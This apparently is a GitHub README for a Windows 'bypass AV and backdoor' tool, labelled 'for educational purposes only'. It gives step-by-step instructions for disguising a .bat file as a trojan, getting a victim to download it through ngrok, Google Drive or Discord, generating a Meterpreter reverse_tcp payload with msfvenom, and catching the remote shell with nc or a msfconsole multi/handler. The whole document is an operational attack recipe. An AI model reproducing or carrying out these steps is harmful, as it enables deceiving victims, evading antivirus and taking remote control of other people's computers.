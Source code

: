 # Windows 11/10 Bypass AV & Backdoor
##### For educational purposes only!
##### Social Engineering required!
## Steps:

1. Make it convincing by turning it into a trojan horse.
2. Get victim to download .bat file to their machine, i.e through ngrok server, google drive, discord, or other means.
3. Generate the payload: <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -a x86 -f exe -o [FILE_NAME.exe]

4. Setup your listener with nc or msfconsole: <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>
